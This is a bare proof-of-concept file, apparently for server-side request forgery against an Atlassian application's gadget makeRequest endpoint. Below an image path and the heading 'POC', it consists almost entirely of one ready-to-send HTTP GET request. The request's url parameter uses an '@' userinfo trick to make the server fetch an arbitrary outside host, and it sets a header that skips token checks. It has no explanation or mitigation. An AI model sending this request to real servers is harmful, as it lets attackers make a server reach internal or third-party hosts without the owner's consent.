 POC
---

    GET /plugins/servlet/gadgets/makeRequest?url=http://10.206.1.8:8080@www.baidu.com HTTP/1.1
    Host: 10.206.1.8:8080
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchangeb;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    X-Atlassian-Token: no-check
    Connection: close